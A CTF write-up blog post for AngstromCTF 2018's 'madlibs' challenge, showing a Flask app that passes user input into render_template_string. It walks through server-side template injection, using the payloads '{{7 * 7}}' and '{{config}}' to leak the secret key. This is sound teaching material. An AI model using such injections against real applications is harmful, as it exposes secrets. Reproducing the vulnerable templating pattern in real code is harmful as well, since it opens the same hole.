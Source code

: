 ```yaml
---
layout:     post
title:      "AngstromCTF - madlibs"
description: "In this challenge we're going to explore common vulnerability in Flask framework."
date:       2018-03-23 2:00:00
author:     "W3ndige"
permalink: /:title/
category: AngstromCTF
---
```


Welcome to first write up from the Angstrom CTF, in which we're going to focus on web security.

- Category: Web
- Points: 120

{% highlight text %}
When Ian was a kid, he loved to play goofy Madlibs all day long. Now, he's decided to write his own website to generate them!
{% endhighlight %}

### Solution

We're presented with the website generating Madlibs stories, getting them from the user input. If you don't know what Madlibs is take a look [here](https://en.wikipedia.org/wiki/Mad_Libs), but it won't be needed in order to solve the challenge.

{% highlight html %}
<!doctype html>
<title>Angstrom MadLibs</title>

<body>

<h4>The Tale of a Person</h4>

<p>
A long, long time ago, there lived a in person. This person had a prized possesion, it was a my.
Every day before using their my, the person liked to closet.
</p>

<h4>THE END</h4>

This MadLib with title The Tale of a Person was created by hello at 2018-03-21 19:48:06
<br><br>
<a href="/">Click here to return to the home page.</a>
<br><br>
MadLib generated using program found <a href="../get-source">here</a>
</body>
</html>
{% endhighlight %}

As you can see, together with the interface we get a source code of this application, which is written in [Flask](http://flask.pocoo.org/).

{% highlight python %}
from flask import Flask, render_template, render_template_string, send_from_directory, request
from jinja2 import Environment, FileSystemLoader
from time import gmtime, strftime
template_dir = './templates'
env = Environment(loader=FileSystemLoader(template_dir))


madlib_names = ["The Tale of a Person","A Random Story"]
story_fields = {
    "The Tale of a Person":['Author Name','Adjective','Noun','Verb'],
    "A Random Story":['Author Name','Adjective','Noun','Any first name','Verb']
    }

app = Flask(__name__)
app.secret_key = open("flag.txt").read()

@app.route("/",methods=["GET"])
def home():
    return render_template("home.html",libs=madlib_names)

@app.route("/form/<templatename>",methods=["GET"])
def madlib(templatename):
    global madlib_names
    if templatename in madlib_names:  
        return render_template("home.html",libs=madlib_names,title=templatename,fields=story_fields[templatename])
    else:
        error_message = 'The MadLib with title "' + templatename + '" could not be found.'
        return render_template("home.html",libs=madlib_names,message=error_message)

@app.route("/result/<templatename>",methods=["POST"])
def output(templatename):

    if templatename not in madlib_names:    
        return "Template not found."

    inpValues = []
    for i in range(len(story_fields[templatename])):
        if not request.form[str(i+1)]:
            return "All form fields must be filled"
        else:
            inpValues.append(request.form[str(i+1)][:24])

    authorName = inpValues.pop(0)[:12]
    try:
        comment = render_template_string('''This MadLib with title %s was created by %s at %s''' % (templatename, authorName, strftime("%Y-%m-%d %H:%M:%S", gmtime())))
    except:
        comment = "Error generating comment."
    return render_template("_".join(templatename.lower().split())+".html",libtitle=templatename,footer=comment, libentries=inpValues)


@app.route("/get-source", methods=["GET","POST"])
def source():
    return send_from_directory('./','app.py')

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=7777, threaded=True)
{% endhighlight %}

We can see the whole logic of written application, but is there something we can exploit? Let's focus on the user input, and specifically `authorName` variable that is used to store our name and print it inthe comment.

Firstly, we can see that it's being limited to only 12 characters, which we can easiliy check.

{% highlight python %}
authorName = inpValues.pop(0)[:12]
{% endhighlight %}

With author name `123456789abcd`, which is 13 characters, only first 12 `123456789abc` will be printed. That's the first obstacle we have to keep in mind.

After that we're getting to creating the comment with this line of code.

{% highlight python %}
comment = render_template_string('''This MadLib with title %s was created by %s at %s''' % (templatename, authorName, strftime("%Y-%m-%d %H:%M:%S", gmtime())))
{% endhighlight %}

Firstly, we have to think about `render_template_string()` function. Quick google will tell us, that it's used in order to work with templates, that will look just like in this [example](http://flask.pocoo.org/docs/0.12/tutorial/templates/). Further analysis of this code doesn't provide us with any new, or more useful information so let's stick to what we have already.

Part of the job of every person is IT is to learn how to google efficiently in order to look for information. That's what I did this time, googled `flask template vulnerability` and look what we have in [this](https://nvisium.com/resources/blog/2015/12/07/injecting-flask.html) link, which showed as the first one in this search engine.

In addition we get very interesting [whitepaper](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf), I advice everyone to read it. But back to the challenge. In quick words, we're able to inject Python code into the template, which will be then executed. Simple test works by putting the input {% raw %}`{{7 * 7}}`{% endraw %} in our author name input.

{% highlight text %}
 This MadLib with title The Tale of a Person was created by 49 at 2018-03-21 20:08:58
{% endhighlight %}

Great, it works! But how do we get the secret that is stored at `app.secret_key = open("flag.txt").read()` variable. As it's name is to long in order to work correctly, we'll have to find a workaround. Luckily, there's a [config]() that stores the configuration of our application. Let's take a look at it  with {% raw %}`{{config}}`{% endraw %}. And ladies and gentlemen, here we have the config.

{% highlight text %}
This MadLib with title The Tale of a Person was created by &lt;Config {&#39;DEBUG&#39;: False, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;: None, &#39;SECRET_KEY&#39;: &#39;actf{wow_ur_a_jinja_ninja}&#39;, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(31), &#39;USE_X_SENDFILE&#39;: False, &#39;LOGGER_NAME&#39;: &#39;__main__&#39;, &#39;LOGGER_HANDLER_POLICY&#39;: &#39;always&#39;, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: None, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: None, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: datetime.timedelta(0, 43200), &#39;TRAP_BAD_REQUEST_ERRORS&#39;: False, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;JSON_AS_ASCII&#39;: True, &#39;JSON_SORT_KEYS&#39;: True, &#39;JSONIFY_PRETTYPRINT_REGULAR&#39;: True, &#39;JSONIFY_MIMETYPE&#39;: &#39;application/json&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None}&gt; at 2018-03-21 20:25:01
{% endhighlight %}

Spot the flag and here you go.
